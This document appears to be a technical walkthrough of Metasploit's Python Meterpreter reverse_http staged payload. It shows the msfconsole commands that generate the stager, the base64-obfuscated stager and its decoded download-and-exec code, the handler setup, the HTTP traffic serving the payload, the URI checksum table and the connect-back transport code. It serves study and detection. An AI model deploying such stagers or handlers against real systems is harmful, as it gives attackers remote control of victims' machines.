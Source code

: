 # python/meterpreter/reverse_http (staged payload)

## Stager

### Generate
```
msf5> use python/meterpreter/reverse_http
msf5 payload(python/meterpreter/reverse_http) > set lhost 127.0.0.1
msf5 payload(python/meterpreter/reverse_http) > generate -f raw -o /shared/stager.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.
version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oez
I6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3Blbm
VyJ10pCmhzPVtdCm89dWwuYnVpbGRfb3BlbmVyKCpocykKby5hZGRoZWFkZXJzPVsoJ1VzZXItQWdlbn
QnLCdNb3ppbGxhLzUuMCAoV2luZG93cyBOVCA2LjE7IFRyaWRlbnQvNy4wOyBydjoxMS4wKSBsaWtlIE
dlY2tvJyldCmV4ZWMoby5vcGVuKCdodHRwOi8vMTI3LjAuMC4xOjgwODAvNWcwMlInKS5yZWFkKCkpCg
==')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import sys
vi=sys.version_info
ul=__import__({2:'urllib2',3:'urllib.request'}[vi[0]],fromlist=['build_opener'])
hs=[]
o=ul.build_opener(*hs)
o.addheaders=[('User-Agent','Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko')]
exec(o.open('http://127.0.0.1:8080/5g02R').read())
```

## Payload (meterpreter)
The payload is sent when executing the multi/handler exploit module with the
corresponding payload:
```
msf5> use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_http
msf5 exploit(multi/handler) > set lhost 0.0.0.0
msf5 exploit(multi/handler) > set lport 8080
msf5 exploit(multi/handler) > exploit
```

When connecting to the handler, Metasploit mimicks an Apache server:
```
# curl -v http://127.0.0.1:8080/
* Expire in 0 ms for 6 (transfer 0x56404fb947a0)
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x56404fb947a0)
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 404 File not found
< Content-Type: text/html
< Connection: close
< Server: Apache
< Content-Length: 141
<
* Closing connection 0
<html><head><title>404 Not Found</title></head><body><h1>Not found</h1>The requested URL / was not found on this server.<p><hr></body></html>
```

From the HTTP traffic, we can see how the meterpreter payload is provided from
the server when a specific URL path is requested:
```
GET /5g02R HTTP/1.1
Accept-Encoding: identity
Host: 127.0.0.1:8080
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko

HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: close
Server: Apache
Content-Length: 53956

#!/usr/bin/python
import binascii
import code
import os
import platform
import random
import re
...
```

The right payload is provided according to the checksum of the ASCII characters
in the URL path (modulo 2^8). In this case, `5g02R` is `53 + 103 + 48 + 50 + 82 = 336 = 80 (mod 256)`.
The payload is then selected according to the following lookup table
([source](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/payloads/meterpreter/uri_checksum.rb)):

```python
#
# Define 8-bit checksums for matching URLs
# These are based on charset frequency
#
URI_CHECKSUM_INITW      = 92 # Windows
URI_CHECKSUM_INITN      = 92 # Native (same as Windows)
URI_CHECKSUM_INITP      = 80 # Python
URI_CHECKSUM_INITJ      = 88 # Java
URI_CHECKSUM_CONN       = 98 # Existing session
URI_CHECKSUM_INIT_CONN  = 95 # New stageless session
```

Once the payload is executed, Meterpreter will use the HTTP transport to connect
back to the handler, when `HTTP_CONNECTION_URL` is defined.
```python
...
# these values will be patched, DO NOT CHANGE THEM
DEBUGGING = False
TRY_TO_FORK = True
HTTP_CONNECTION_URL = 'http://127.0.0.1:8080/vZTmXAyyDvpdfEhoAzQRWQuHfGijteWN8k9UD/'
HTTP_PROXY = None
HTTP_USER_AGENT = 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
HTTP_COOKIE = None
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        # PATCH-SETUP-STAGELESS-TCP-SOCKET #
        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```
